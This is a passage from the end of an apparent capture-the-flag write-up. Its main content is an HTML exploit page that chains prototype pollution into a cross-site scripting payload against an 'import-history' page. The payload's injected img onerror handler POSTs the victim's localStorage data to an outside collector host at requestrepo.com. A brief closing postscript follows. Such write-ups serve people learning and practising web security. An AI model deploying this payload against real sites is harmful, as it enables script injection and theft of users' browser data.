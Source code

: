 ```html
<!-- b.html -->

<head>
    <meta http-equiv="Content-Security-Policy" content="frame-src 'none';">
</head>
<script>
const sleep = d => new Promise(r => setTimeout(r, d));
const main = async () => {
    PAYLOAD = encodeURIComponent(JSON.stringify({
        ["__proto__"]: {
            "1": {
                "length": "<img src=x onerror=\"fetch(`http://1s4fqew1.requestrepo.com/`,{method:`POST`,body:`${localStorage.blockHistory}`})\">",
                "location": {},
                "name":"lol",
                "origin": parent.parent.SERVER
            }
        }
    }))
    await sleep(500);
    location = `${parent.parent.SERVER}/import-history.html?history=${PAYLOAD}`
}

main();
</script>
```

Sending the admin to `a.html` triggers the flow and yields the flag :)

# Postscript

If you played the challenge, I hope you enjoyed it! If not, hopefully this made for an interesting read. Either way, thank you very much for reading!